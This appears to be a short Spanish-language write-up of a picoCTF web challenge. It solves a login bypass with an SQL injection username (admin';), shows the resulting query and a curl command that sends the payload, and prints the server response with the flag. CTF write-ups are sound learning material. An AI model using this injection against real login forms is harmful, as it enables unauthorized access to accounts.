 ## Objetivo

There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Solución

Utilizamos una injeccion SQL diferente, ya que solamente en la parte de la contraseña estaba filtrada

username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'

por consola
```
czarragar-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=admin&debug=1"
<pre>username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>czarragar-picoctf@webshell:~$ 
```

```
picoCTF{m0R3_SQL_plz_aee925db}
```

## Notas adicionales

## Referencias


